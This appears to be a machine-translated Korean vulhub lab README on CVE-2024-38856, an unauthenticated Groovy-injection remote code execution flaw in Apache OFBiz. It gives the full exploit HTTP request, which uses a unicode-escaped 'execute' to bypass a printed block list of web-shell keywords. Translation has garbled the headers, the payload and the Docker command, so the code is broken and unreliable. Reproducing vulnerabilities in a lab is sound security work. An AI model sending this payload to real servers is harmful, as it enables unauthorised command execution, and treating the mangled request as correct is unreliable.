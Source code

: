# Apache OFBIZ 인증 우회로 인해 RCE가 발생합니다(CVE-2024-38856)

[ENGLISH(영어 버전)](README_en.md)
[中文版本(중국어 버전)](README.zh-cn.md)


Apache OFBIZ는 오픈 소스 엔터프라이즈 리소스 플래닝(ERP) 시스템입니다. 이 시스템은 기업의 많은 비즈니스 프로세스를 통합하고 자동화하는 일련의 엔터프라이즈 애플리케이션을 제공합니다.

이 취약점은 [CVE-2023-51467](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-51467) 의 불완전한 수정으로 인해 발생합니다. Apache OFBIZ 버전 18.12.11에서는 개발자들이 취약점을 수정했다고 생각하지만, 실제로는 이를 악용하는 한 가지 방법만 다루었습니다. Groovy 표현식 주입은 여전히 존재하며 권한이 없는 사용자가 서버에서 임의의 명령을 실행할 수 있도록 합니다.

참고 자료:

- <https://github.com/apache/ofbiz-framework/commit/31d8d7 >
- <https://forum.butian.net/article/524 >
- <https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz >

## 취약한 환경

다음 명령을 실행하여 Apache OfBiz 18.12.14 서버를 시작합니다:

```
도커 구성
```

잠시 기다린 후 'https://localhost:8443/accounting'에서 로그인 페이지를 확인할 수 있습니다.

## 취약성 재현

Groovy 스크립트에서 'id' 명령을 실행하기 위해 다음 요청을 보냅니다:

```
POST /webtools/control/main/ProgramExport HTTP/1.1
호스트: 로컬호스트:8443
수락 인코딩: gzip, 디플레이트, br
수락: */*
Accept-Language: en-US;q=0.9,en;q=0.8
사용자 에이전트: Mozilla/5.0(Windows NT 10.0, Win64, x64) AppleWebKit/537.36(KHTML, Gecko와 같은) Chrome/126.0.6478.127 Safari/537.36
연결: 닫기
캐시 제어: 최대 연령=0
콘텐츠 유형: 멀티파트/폼 데이터; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
콘텐츠 길이: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
콘텐츠 배치: 양식 데이터; 이름="그루비 프로그램"

새 Exception('id'.\\u0065xecute(.text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```

![](1.png)

Apache Ofbiz는 다음 키워드의 사용을 제한하지만, 유니코드 문자인 '\\u0065xecute'를 사용하면 이 제한을 피할 수 있습니다.

```
거부된 WebShellTokens=java., beans, freemarker,<script,javascript,<body,body,<form,<jsp:,<c:out,taglib,<prefix,<%@ 페이지,<?php,execute (,alert(,\\\
%eval,@eval,eval (,runtime, 가져오기, passthru, 쉘_exec, assert, str_rot13, 시스템, decode, include, 페이지,\\
chmod, mkdir, fopen, fclose, 새 파일, upload, getfilename, download, getoutputstring, readfile, iframe, 객체, embed, 온로드, 빌드,\\
python, perl ,/perl, ruby ,/ruby , 프로세스, 기능, 클래스, InputStream, to_server, wget , static,assign, webappPath,\\
ifconfig, route, crontab, netstat, uname, hostname, iptables, whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost, thread, require, gzdeflate,\\
실행, 인쇄, calc, 터치, calculate
```